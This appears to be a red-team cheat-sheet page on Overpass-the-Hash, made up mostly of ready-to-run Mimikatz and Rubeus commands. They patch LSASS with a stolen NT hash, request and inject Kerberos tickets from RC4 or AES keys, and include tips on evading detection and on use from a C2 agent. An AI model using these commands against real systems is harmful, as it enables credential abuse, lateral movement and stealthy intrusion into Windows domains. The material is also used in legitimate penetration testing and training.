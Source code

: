 # Overpass-the-Hash




## Mimikatz

* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)
* [https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/](https://s3cur3th1ssh1t.github.io/Named-Pipe-PTH/)

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), open the LSASS process and patch it with the supplied NT hash. This causes the normal Kerberos authentication process to kick off as normal as if the user had normally logged on, turning the supplied hash into a fully-fledged TGT:

```
Cmd > .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::pth /user:snovvcrash /domain:megacorp.local /run:c:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /ntlm:fc525c9683e8fe067095ba2ddc971889" "exit"
```




## Rubeus

* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus#example-over-pass-the-hash](https://github.com/GhostPack/Rubeus#example-over-pass-the-hash)

Create a sacrificial process ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)), legitimately ask Kerberos for TGT, import it and interact with the process (need elevated context):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /password:Passw0rd! /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show
```

{% hint style="info" %}
If operating Rubeus from a C2 agent, you can [steal_token](/redteam/cobalt-strike.md#overpass-the-hash) instead of using `/show` option.
{% endhint %}

Create a new process with dummy creds ([Logon type 9](https://ss64.com/nt/syntax-logon-types.html)) manually, then use Rubeus with user's NT hash to ask for a TGT and import it:

```
Cmd > runas /netonly /user:megacorp.local\snovvcrash cmd
Enter the password for megacorp.local\snovvcrash: dummy_Passw0rd!
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /rc4:fc525c9683e8fe067095ba2ddc971889 /ptt
```

A more opsec safe approach is to use AES key (KeyType 0x12) instead of RC4-HMAC (KeyType 0x17) alongside with `/opsec` switch which instructs Rubeus not to do pre-auth (mimics standard Kerberos behavior):

```
Cmd > .\Rubeus.exe asktgt /domain:megacorp.local /dc:dc1 /user:snovvcrash /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /ptt /opsec
```
